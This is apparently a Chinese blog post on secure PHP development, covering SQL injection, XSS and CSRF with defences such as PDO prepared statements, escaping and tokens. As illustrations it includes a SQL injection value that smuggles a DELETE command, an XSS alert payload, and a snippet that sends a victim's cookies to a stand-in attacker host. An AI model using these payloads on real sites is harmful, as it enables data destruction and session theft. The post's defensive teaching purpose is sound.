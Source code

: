 ```yaml
---
title: '浅谈安全开发'
layout: post
tags:
  - 安全
  - php
category: php
---
```


PHP安全开发第一步，你需要使用一个优秀的PHP框架。一个优秀的框架不仅有着良好的工程结构，也往往在安全防御上有很多有用的类库、开关。今天介绍的PHP开发安全防护也是基于框架来说的。 PHP框架数不胜数，很多PHP开发人员都自己写过框架，但优秀且常用的PHP框架也就那么几个，如经典的Codeigniter、优雅的Laravel、执行速度最快的Yaf等等。下面涉及到框架方面的东西都是基于Laravel框架进行讨论。

<!--more-->

## SQL注入

SQL注入，就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令


```python
// 用户名过滤，输入的用户名必须为字母、数字及下划线的组合，且用户名长度为 8 到 20 个字符之间
if (preg_match("/^\w{8,20}$/", $_GET['username'], $matches))
{
 $result = mysql_query("SELECT * FROM users 
       WHERE username=$matches[0]");
}
 else
{
 echo "username 输入异常";
}

// 没有过滤特殊字符时，出现的SQL情况，设定$name 中插入了我们不需要的SQL语句
$name = "Qadir'; DELETE FROM users;";
mysql_query("SELECT * FROM users WHERE name='{$name}'");
```

我们没有对 $name 的变量进行过滤，$name 中插入了我们不需要的SQL语句，将删除 users 表中的所有数据。

### 防止SQL注入

> * 永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和 双"-"进行转换等。
* 永远不要使用动态拼装sql，可以使用参数化的sql或者直接使用存储过程进行数据查询存取。
* 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
* 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息。
* 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
* sql注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用sql注入检测工具jsky，网站平台就有亿思网站安全平台检测工具。MDCSOFT SCAN等。采用MDCSOFT-IPS可以有效的防御SQL注入，XSS攻击等。

当我们使用传统的 mysql_connect 、mysql_query方法来连接查询数据库时，如果过滤不严，就有SQL注入风险，导致网站被攻击，失去控制。虽然可以用mysql_real_escape_string()/使用htmlspecialchars()函数过滤用户提交的值，但是也有缺陷。而使用PHP的PDO扩展的 prepare 方法，就可以避免sql injection 风险。


```python
$stmt = $dbh->prepare("select * from test where name = ?");
if ($stmt->execute(array("david"))) {
 while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
     print_r($row);
 }
}
```

### PDO防注入原理

使用PDO访问MySQL数据库时，真正的real prepared statements 默认情况下是不使用的。为了解决这个问题，你必须禁用 prepared statements的仿真效果。下面是使用PDO创建链接的例子：

```python
$dbh = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');
$dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);

```
setAttribute（）这一行是强制性的，它会告诉 PDO 禁用模拟预处理语句，并使用 real parepared statements 。这可以确保SQL语句和相应的值在传递到mysql服务器之前是不会被PHP解析的（禁止了所有可能的恶意SQL注入攻击）。虽然你可以配置文件中设置字符集的属性(charset=utf8)，但是需要格外注意的是，老版本的 PHP（ < 5.3.6）在DSN中是忽略字符参数的。

```python
$dbh = new PDO("mysql:host=localhost; dbname=demo", "user", "pass");
$dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false); //禁用prepared statements的仿真效果
$dbh->exec("set names 'utf8'");
$sql="select * from test where name = ? and password = ?";
$stmt = $dbh->prepare($sql);
$exeres = $stmt->execute(array($testname, $pass));
if ($exeres) {
 while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
     print_r($row);
 }
}
$dbh = null;
```

上面这段代码就可以防范sql注入。为什么呢？
当调用 prepare() 时，查询语句已经发送给了数据库服务器，此时只有占位符 ? 发送过去，没有用户提交的数据；当调用到 execute()时，用户提交过来的值才会传送给数据库，他们是分开传送的，两者独立的，由MySQL完成变量的转义处理，SQL攻击者没有一点机会。
但是我们需要注意的是以下几种情况，PDO并不能帮助你防范SQL注入

* 你不能让占位符 ? 代替一组值

```python
SELECT * FROM blog WHERE userid IN ( ? );
```

* 你不能让占位符代替数据表名或列名

```python
SELECT * FROM blog ORDER BY ?;
```
* 你不能让占位符 ? 代替任何其他SQL语法，如：

```python
SELECT EXTRACT( ? FROM datetime_column) AS variable_datetime_element FROM blog;
```

## XSS

XSS(Cross Site Scripting)，意为网站脚本攻击。跨站脚本主要被攻击者利用网站用户的cookies或者其他个人数据，一旦攻击者得到这些数据，那么他就可以伪装成此用户来登录网站，获得此用户的权限。

跨站脚本攻击的一般步骤:

1、攻击者以某种方式发送xss的http链接给目标用户
2、目标用户登录此网站，在登陆期间打开了攻击者发送的xss链接
3、网站执行了此xss攻击脚本
4、目标用户页面跳转到攻击者的网站，攻击者取得了目标用户的信息
5、攻击者使用目标用户的信息登录网站，完成攻击


用户浏览网页时发送错误，向服务器请求 URL，比如www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板中sorry,an error occurred，返回给用户。

这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面时，就会出现<script>alert(1)</script>，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下


```javascript
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

> 最简单的办法，过滤输入。对用户的输入，可以使用htmlspecialchars()等函数进行过滤转义，当然，一些文件上传等，也可能会造成此攻击，要限制上传文件的类型，比如只能传图片等。

## CSRF

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，跨站攻击。

CSRF攻击理解：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。

“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击”。是的，确实如此，但你不能保证以下情况不会发生：

1. 你不能保证你登录了一个网站后，不再打开一个tab页面并访问另外的网站。

2. 你不能保证你关闭浏览器了后，你本地的Cookie立刻过期，你上次的会话已经结束。（事实上，关闭浏览器不能结束一个会话，但大多数人都会错误的认为关闭浏览器就等于退出登录/结束会话了......）

3. 上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。



> 1. 使用token进行验证。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。（使用GET或POST方法加TOKEN）
2. 验证HTTP Referer字段。HTTP Referer字段，记录该HTTP请求的来源。如果来源是外部，那么就拒绝这个请求。（这个方法不安全，可以篡改HTTP Referer字段）
3. 一般框架，像ThinkPHP、laravel有表单令牌可以做防范。
4. 多个服务之前走内外调用



